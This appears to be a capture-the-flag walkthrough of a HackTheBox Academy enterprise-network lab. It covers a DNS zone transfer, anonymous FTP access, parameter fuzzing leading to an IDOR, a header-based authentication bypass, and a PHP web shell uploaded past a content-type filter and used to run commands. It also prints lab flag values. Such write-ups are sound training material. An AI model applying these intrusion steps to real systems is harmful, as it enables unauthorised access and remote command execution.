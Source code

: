 ```yaml
---
title: HTBAcademy Attacking Enterprise Networks Walkthrough
date: 2025-03-14 00:00:01 +0800
categories: [HackTheBox]
tags: [HackTheBox]
---
```

## First Flag

The first flag was found using the following command:

```sh
dig axfr inlanefreight.local @10.129.229.147
```

### Output:
```
; <<>> DiG 9.18.30-0ubuntu0.24.04.2-Ubuntu <<>> axfr inlanefreight.local @10.129.229.147
;; global options: +cmd
inlanefreight.local. 86400 IN SOA ns1.inlanfreight.local. dnsadmin.inlanfreight.local. 21 604800 86400 2419200 86400
inlanefreight.local. 86400 IN NS inlanefreight.local.
inlanefreight.local. 86400 IN A 127.0.0.1
blog.inlanefreight.local. 86400 IN A 127.0.0.1
careers.inlanefreight.local. 86400 IN A 127.0.0.1
dev.inlanefreight.local. 86400 IN A 127.0.0.1
flag.inlanefreight.local. 86400 IN TXT "HTB{DNs_ZOn3_Tr@nsf3r}"
gitlab.inlanefreight.local. 86400 IN A 127.0.0.1
ir.inlanefreight.local. 86400 IN A 127.0.0.1
status.inlanefreight.local. 86400 IN A 127.0.0.1
support.inlanefreight.local. 86400 IN A 127.0.0.1
tracking.inlanefreight.local. 86400 IN A 127.0.0.1
vpn.inlanefreight.local. 86400 IN A 127.0.0.1
```

---

## Second Flag

Found using an FTP anonymous login:

```sh
ftp anonymous@ip
get flag.txt
```

---

## Parameter Fuzzing

I used `ffuf` to discover parameters:

```sh
ffuf -u http://careers.inlanefreight.local:80/FUZZ?id=1 -w /home/kchen/SecLists/Discovery/Web-Content/burp-parameter-names.txt -mc 200-299,301,302,307,401,403,405,500
```

### Results:
```
apply        [Status: 200, Size: 16408, Words: 5625, Lines: 265, Duration: 84ms]
login        [Status: 200, Size: 9459, Words: 2752, Lines: 187, Duration: 159ms]
profile      [Status: 200, Size: 10148, Words: 3146, Lines: 195, Duration: 159ms]
register     [Status: 200, Size: 9754, Words: 2772, Lines: 191, Duration: 182ms]
```

I registered an account at:

```
http://careers.inlanefreight.local:80/register?id=1
```

Then, accessing:

```
http://careers.inlanefreight.local:80/profile?id=4
```

gave me the second flag:

```
HTB{8f40ecf17f681612246fa5728c159e46}
```

---

## Exploiting `dev.inlanefreight.local`

Used `ffuf` to discover PHP files:

```
dev.inlanefreight.local/login.php
```

The `GET` request was denied, but after testing various HTTP methods, `TRACK` worked. The request included a header:

```
X-Custom-IP-Authorization: 172.x.x.x
```

Setting it to `127.0.0.1` allowed me to bypass authentication.

---

## File Upload Exploit

I found an image upload feature but it only accepted `image/png`. To bypass this, I:

1. Uploaded a PNG file and recorded the HTTP request in BurpSuite.
2. Modified the file contents to a PHP web shell.
3. Changed the filename extension in BurpSuite to `.php`.
4. Resent the modified request.

The file was uploaded successfully to:

```
/uploads/screenshot.php
```

Executing commands via:

```
http://dev.inlanefreight.local/uploads/screenshot.php?cmd=id
```

---

## Finding the Next Flag

To locate flag files, I ran:

```sh
find / -type f -name "*flag.txt*"
```

Since this was a web shell, I had to URL encode the command before execution.

---
